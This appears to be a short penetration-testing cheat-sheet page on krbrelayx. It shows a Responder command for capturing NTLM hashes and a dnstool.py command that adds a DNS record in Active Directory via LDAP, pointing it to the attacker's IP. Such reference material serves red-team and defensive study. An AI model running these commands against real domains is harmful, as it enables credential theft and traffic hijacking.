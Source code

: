 ```yaml
---
title: "Krbrelayx"
date: 2024-7-23
tags: ["Krbrelayx", "dnstools", "active driectory", "ad", "Windows", "dns"]
---
```


### Abuse #1: Add Active Directory Integrated DNS records via LDAP

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Capture NTLM hash
sudo responder -I tun0
```

```console
python3 dnstool.py -u '<DOMAIN>\<USER>' -p '<PASSWORD>' --action add --record <TARGET_RECORD> --data <LOCAL_IP> <TARGET_IP>
```

<small>*Ref: [krbrelayx tools](https://github.com/dirkjanm/krbrelayx)*</small>

{{< /tabcontent >}}
